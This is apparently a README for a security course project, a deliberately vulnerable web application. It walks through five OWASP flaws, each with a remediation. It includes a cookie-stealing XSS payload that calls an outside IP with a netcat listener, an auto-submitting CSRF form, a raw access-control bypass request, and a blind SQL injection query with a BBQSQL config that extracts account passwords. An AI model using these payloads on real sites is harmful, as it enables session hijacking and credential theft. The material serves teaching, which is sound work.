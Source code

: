 # Cyber Security Base  - Project I

This is my solution for the first project of the [Cyber Security Base course](https://cybersecuritybase.github.io/). In this project our task is to create a web application that has at least five different flaws from the [OWASP top ten list](https://www.owasp.org/index.php/Top_10_2013-Top_10).

## Setup info
* Web page: [http://localhost:8080/](http://localhost:8080/)
* User accounts:

    | Username | Password |
    | -------- | -------- |
    | admin    | adminpw  |
    | user     | userpw   |
    
* Tools needed:
    1. netcat
    2. [BBQSQL](https://github.com/Neohapsis/bbqsql)


## Flaw 1 - Cross-Site Scripting
**OWASP description**: [A3-Cross-Site Scripting](https://www.owasp.org/index.php/Top_10_2013-A3-Cross-Site_Scripting_(XSS))

**Issue**: [Cross-Site Scripting](https://www.owasp.org/index.php/Cross-site_Scripting_(XSS))

**Steps to reproduce**:

1. Go to the sign up form to create a new user.
2. In the address field insert:
    ```
    <script>document.write('<img src="http://192.168.0.117:1234/' + document.cookie + '">')</script>
    ```
3. Start a netcat server using the command `nc -lp 1234` on the specified host. When a user opens the attendees page, a request is sent to this server:

    ![Result of XSS](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/XSS_session_cookie.png)
4. We now can take over the session of this user by changing our own session cookie using `document.cookie="JSESSIONID=E0ED84B16865028DF09E522DC8B8DDC8"` in the browser console. This way we are able to steal the session of the admin user when this user logs in.

**Remediation**:

* Escape user input when showing this on a page.
* Make sure that the HTTPOnly cookie flag is set for the session ID.


## Flaw 2 - Cross-Site Request Forgery
**OWASP description**: [A8-Cross-Site Request Forgery](https://www.owasp.org/index.php/Top_10_2013-A8-Cross-Site_Request_Forgery_(CSRF))

**Issue**: [Cross-Site Request Forgery](https://www.owasp.org/index.php/Cross-Site_Request_Forgery)

**Steps to reproduce**:

1. Create an HTML with the following content:

    ```HTML
    <html>
        <body onload="document.forms[0].submit()">
            <form action="http://localhost:8080/profile" method="POST">
                <input type="hidden" name="count" id="count" value="1000" />
                <input type="submit" value="Submit" />    
            </form>
        </body>
    </html>
    ```
2. Host this page somewhere.
3. Login to the application with a user.
4. Go to the url where the CSRF attack page is hosted (e.g. https://benjaminstienlet.github.com/cybersecuritybase-project/csrf_attack.html).
5. The number of attendees for the user that was logged in is now changed to 1000:

    ![Result of CSRF](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/CSRF_result.png)

**Remediation**:

* Verify the same origin using standard headers.
* Use a secure random CSRF token for state changing operations.


## Flaw 3 - Missing Function Level Access Control
**OWASP description**: [A7-Missing Function Level Access Control](https://www.owasp.org/index.php/Top_10_2013-A7-Missing_Function_Level_Access_Control)

**Issue**: Regular users can access a privileged function

**Steps to reproduce**:

1. Login as a normal user and note down your session id
2. Connect to the web server using netcat with the following command: `nc 192.168.0.185 8080`
3. Insert the following HTTP request:

    ```
    DELETE /attendees/John%20Smith HTTP/1.1
    Host: 192.168.0.185:8080
    Cookie: JSESSIONID=6DE506E932836598A6BFCA5FC6427A61
    ```

4. Press enter to submit the request. The user John Smith now is successfully removed by a regular user who should not have these rights.

    ![Result of netcat](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/privileged_function_command.png)

**Remediation**:

* Don't use "presentation layer access control" but also check in the function itself that the authenticated user has the necessary privileges to perform this function.


## Flaw 4 - Injection
**OWASP description**: [A1-Injection](https://www.owasp.org/index.php/Top_10_2013-A1-Injection)

**Issue**: [Blind SQL injection](https://www.owasp.org/index.php/Blind_SQL_Injection)

**Steps to reproduce**:

1. Login to the web application.
2. Go to the attendees page.
3. Insert `nothing' OR '1'='1` in the search field. After applying this filter, all items are still shown. This indicates that we can exploit this using SQL injection. We will have to use a blind SQL injection as the result of the query is not printed. I chose for a content-based blind SQL injection, but a time-based injection should also work.
4. We can read the data from the database by doing a binary search on the ASCII value of each character in the database and iterating over all the characters. The base query for this method is:
    ```
    1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET 1, 1, 1)) > 63) --
    ```

    If the list of attendees is shown, the query evaluated to true and the ASCII value of the first character in the Name column for the first row in the Account table is larger than 63. If no attendees are shown, then the query evaluated to false.
5. We can now execute this base query using the tool [BBQSQL](https://github.com/Neohapsis/bbqsql) with the following configuration file:
    ```
    [Request Config]
    url = http://192.168.0.185:8080/attendees
    headers = {'Content-Type': 'application/x-www-form-urlencoded'}
    cookies = {'JSESSIONID': '19EE58D182C7FE01DC0312AD14172858'}
    data = searchString=${query}
    method = post

    [HTTP Config]
    query = 1' OR (ASCII(SUBSTRING(SELECT CONCAT(NAME,':',PASSWORD) FROM ACCOUNT LIMIT 1 OFFSET ${row_index:1}, ${char_index:1}, 1)) ${comparator:>} ${char_val:0}) --
    csv_output_file = bbqsql_output.csv
    technique = binary_search
    comparison_attr = size
    concurrency = 30
    ```
6. This tool gives the following output:

    ![Result of BBQSQL](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/SQLI_result.png)

**Remediation**:

* [Parameterized queries](https://www.owasp.org/index.php/SQL_Injection_Prevention_Cheat_Sheet#Defense_Option_1:_Prepared_Statements_.28with_Parameterized_Queries.29) can be used as a remediation for this SQL injection.


## Flaw 5 - Sensitive Data Exposure
**OWASP description**: [A6-Sensitive Data Exposure](https://www.owasp.org/index.php/Top_10_2013-A6-Sensitive_Data_Exposure)

**Issue**: Weak cryptographic algorithm and unsalted hashes used

**Steps to reproduce**:

1. In the previous flaw, we found the user names and hashes of the passwords. Using an [online tool](https://www.onlinehashcrack.com/hash-identification.php) to identify the hash type, we can see that these hashes are probably MD5 hashes.
2. We can check an [online reverse lookup](http://md5.gromweb.com/) for the MD5 hashes:

    ![Result of reverse lookup](https://raw.githubusercontent.com/BenjaminStienlet/cybersecuritybase-project/master/images/MD5_reverse_lookup.png)
3. This way we found the passwords of the user accounts in the application.

**Remediation**:

* Select a hashing algorithm that has no known vulnerabilities. For example the standard BCrypt algorithm in the Spring framework. The implementation in Spring also uses a random salt per user.
